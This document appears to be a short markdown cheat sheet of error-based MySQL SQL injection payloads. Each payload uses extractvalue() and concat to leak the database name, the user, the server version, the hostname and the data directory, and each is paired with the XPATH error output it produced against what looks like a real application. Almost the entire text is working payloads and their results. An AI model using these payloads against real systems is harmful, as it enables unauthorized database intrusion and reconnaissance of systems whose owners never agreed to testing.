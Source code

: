 * **Using database() Functions**

	 ```1'+AND+1=extractvalue(rand(),concat(0x3a,database()))--+```
	 
	 ERROR RESULT
	 
	 ```"sqlMessage":"XPATH syntax error: ':progress28app'"```
  
  

* **Using user() Functions**

	```1'+and+1=extractvalue(rand(),concat(0x3a,user()))--+``` 
	
	ERROR RESULT
	
	```"sqlMessage":"XPATH syntax error: ':progress28app@172.x.x.28'"```



* **Using current_user() Functions**

	```1'+AND+1=extractvalue(rand(),concat(0x3a,current_user()))--+```
	
	ERROR RESULT
	
	```"sqlMessage":"XPATH syntax error: ':progress28@%'"```



* **Using version() Functions**

	```1'+and+1=extractvalue(rand(),concat(0x3a,version()))--+``` 
	
	ERROR RESULT

	```"sqlMessage":"XPATH syntax error: ':5.7.26-log'"```



* **Using @@hostname Functions**

	```1'+AND+1=extractvalue(rand(),concat(0x3a,@@hostname))--+```
	
	ERROR RESULT
	
	```"sqlMessage":"XPATH syntax error: ':ip-xx.x.x.xxx'"```



* **Using @@datadir Functions**

	```1'+AND+1=extractvalue(rand(),concat(0x3a,@@datadir))--+```
	
	ERROR RESULT
	
	```"sqlMessage":"XPATH syntax error: ':/p28dbdata/db/'"```
